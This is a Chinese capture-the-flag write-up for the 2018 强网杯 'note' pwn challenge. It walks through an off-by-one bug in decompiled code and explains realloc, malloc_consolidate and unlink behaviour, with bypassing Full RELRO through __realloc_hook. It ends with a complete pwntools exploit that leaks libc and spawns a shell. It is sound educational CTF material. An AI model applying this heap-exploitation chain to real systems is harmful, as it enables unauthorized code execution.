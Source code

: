 # 2018强网杯--pwn-note

不知道为什么运行不了note，只能借别的师傅的writeup来云做题

checksec

```
	Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3fd000)
    RUNPATH:  '/home/pur3uit/build/build-2.25/lib/'
```

ida打开

```c
void sub_401270()
{
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  alarm(0x3Cu);
  qword_602070 = (__int64)malloc(40uLL);        //title
  printf("welcome to the note %d\n", qword_602070 - qword_602078);
  dword_602068 = 120;
  ptr = (char *)malloc(0x78uLL);
  qword_602058 = (__int64)malloc(0x78uLL);
  dword_602050 = 0;
  while ( 1 )
  {
    switch ( (unsigned int)sub_401076() )
    {
      case 1u:
        Changetitle();
        break;
      case 2u:
        ChangeContent(120LL);
        break;
      case 3u:
        Changecomment(120LL);
        break;
      case 4u:
        ShowContent(120LL);
        break;
      case 5u:
        puts("Bye~");
        exit(0);
        return;
      case 6u:
        exit(0);
        return;
      default:
        continue;
    }
  }
}
```

漏洞在changetitle，off-by-one

```c
__int64 Changetitle()
{
  __int64 result; // rax
  signed int v1; // eax
  unsigned __int8 v2; // [rsp+Bh] [rbp-5h]
  signed int v3; // [rsp+Ch] [rbp-4h]

  printf("enter the title:");
  v3 = 0;
  while ( 1 )
  {
    v2 = getchar();
    if ( (unsigned int)sub_401090(v2) )         // v3=40时利用'!?@"',27h,'#&',0跳出，@刚好就是0x40
      break;
    if ( v3 > 39 )
    {
      result = qword_602070 + 39;
      *(_BYTE *)(qword_602070 + 39) = 0;
      return result;
    }
    v1 = v3++;
    *(_BYTE *)(qword_602070 + v1) = v2;
  }
  result = v2;                                  // title[40]=v2,有一个字节溢出
  *(_BYTE *)(v3 + qword_602070) = v2;
  return result;
}
```

## realloc

1：检查下一块是否是top chunk，如果是并且top chunk的size满足要求，则直接到top chunk中进行扩展原先的内存。
2：如果第一步不能满足，则检查下一块是否是空闲的chunk，如果是并且size满足要求，则从下一个chunk中进行扩充。
3：如果前两步都不能满足，就只能通过malloc申请新的内存空间，如果新申请的内存是原先内存的下一个chunk，则不进行复制，释放原内存的操作，直接将两块内存合并；如果新申请的内存不是原先内存的下一个chunk，就需要进行复制，释放原先内存的操作。

在第三步进入malloc操作的时候，如果申请的内存过于大，以至于small bins中没有合适的内存块可以供使用，就会触发malloc_consolidate操作，这个操作会将fast bins中的所有chunk都取出来并进行合并。
上文，realloc操作的第三步，会对原先的内存进行free操作，如果原先的内存是属于fast bins的，结合这里的malloc_consolidate操作，会触发unlink操作。



## RELRO技术就是重定位只读技术，主要是为了防御针对修改GOT表的攻击。

重定位只读分为部分RELRO(Partial RELRO)与完全RELRO(Full RELRO)两种。

部分RELRO:在程序装入后,将其中一些段(如.dynamic)标记为只读,防止程序的一些重定位信息被修改。
完全RELRO:在部分RELRO的基础上,在程序装入时,直接解析完所有符号并填入对应的值,此时所有的GOT表项都已初始化,且不装入link_map与_dl_runtime_resolve的地址(二者都是程序动态装载的重要结构和函数)。

可以看到,当程序启用完全RELRO时,传统的GOT劫持的方式也不再可用。
但完全RELRO对程序性能的影响也相对较大,因为其相当于禁用了用于性能优化的动态装载机制,将程序中可能不会用到的一些动态符号装入,当程序导入的外部符号很多时,将带来一定程度的额外开销。
为了绕过RELRO，我们可以利用__realloc_hook的特性。
修改存在于glibc.data段的记录hook函数的指针变量__realloc_hook，若glibc发现此变量的值不为0，则在进行realloc操作时会直接调用此变量中记录的函数地址，从而达到劫持控制流的目的。

## 利用思路

查看bss段

```
.bss:0000000000602050 change_content_limit dd ?               
.bss:0000000000602050                                         
.bss:0000000000602054                 align 8
.bss:0000000000602058 ; char *comment
.bss:0000000000602058 comment         dq ?                    
.bss:0000000000602058                                         
.bss:0000000000602060 ; char *content_ptr
.bss:0000000000602060 content_ptr     dq ?                    
.bss:0000000000602060                                         
.bss:0000000000602068 default_content_size dd ?               
.bss:0000000000602068                                         
.bss:000000000060206C                 align 10h
.bss:0000000000602070 ; char *title
.bss:0000000000602070 title           dq ?                    
.bss:0000000000602070
```

为了触发unlink，我们需要两个连续的free chunk，通过调试可以发现，title正好是content的前一个chunk。

### 第一步 在title处伪造free chunk

fd和bk值为title指针减24和减16，并利用off-by-one把下一个chunk的标志位0

### 第二步

在change_content操作中，可以先通过申请一个很大的内存，使得realloc必须执行上文的第三步，这样会使得原先的content被free掉，成为free状态的fast bin chunk。
上面申请的大内存必定和top chunk相邻，因此，这一步也需要再申请一个足够大内存，其大小必须大于top chunk和当前content的大小之和，由于这时fast bin中已经有内容，所以会触发malloc_consolidate操作，对fast bin进行合并，这时就会触发unlink，使得title指针指向了其自身减去24的位置，此时便可以实现任意地址写。

exp：

```python
from pwn import *
import time
p = remote('127.0.0.1',1234)

def title(Title):
    p.recvuntil('option--->>\n')
    p.sendline(str(1))
    p.recvuntil('enter the title:')
    p.send(Title)

def content(Size,Content):
    p.recvuntil('option--->>\n')
    p.sendline(str(2))
    p.recvuntil('Enter the content size(64-256):')
    p.sendline(str(Size))
    p.recvuntil('Enter the content:')
    p.send(Content)

def comment(Cmn):
    p.recvuntil('option--->>\n')
    p.sendline(str(3))
    p.recvuntil('Enter the comment:')
    p.send(Cmn)

def show():
    p.recvuntil('option--->>\n')
    p.sendline(str(4))

def exploit():
    payload = p64(0)+p64(0x20)+p64(0x602070-0x18)+p64(0x602070-0x10)+p64(0x20)
    content(0x68,'A'*0x38+p64(0x41)+'\n')
    title(payload+'@')

    content(0x5000,'this step is to free one original content chunk\n')
    time.sleep(0.5)
    content(0x20000,'this step is to unlink\n')
    time.sleep(0.5)

    title(p64(0x602050)+p64(0x601fd0)+'\n')
    show()
    p.recvuntil('The content is:')
    libc.address = u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))-libc.symbols['atoi']
    print('The libc base address is:' + hex(libc.address))
    __realloc_hook = libc.symbols['__realloc_hook']
    print('The realloc_hook address is:'+hex(__realloc_hook))
    system = libc.symbols['system']
    print('The system address is:'+hex(system))
    binsh_addr = next(libc.search('/bin/sh'))
    print('The binsh address is:'+hex(binsh_addr))

    #这一步会使得之后调用realloc变成调用system
    title(p64(__realloc_hook)+'\n')
    time.sleep(0.5)
    comment(p64(system)+'\n')
    time.sleep(1)

    title(p64(0x602050)+p64(binsh_addr)+'\n')
    time.sleep(1)
    comment(p64(0)+'\n')
    time.sleep(0.5)

    p.recvuntil('option--->>\n')
    p.sendline(str(2))
    p.recvuntil('Enter the content size(64-256):')
    p.sendline('0x100')

libc = ELF('/home/pur3uit/build/build-2.25/lib/libc.so.6')
exploit()
p.interactive()
```

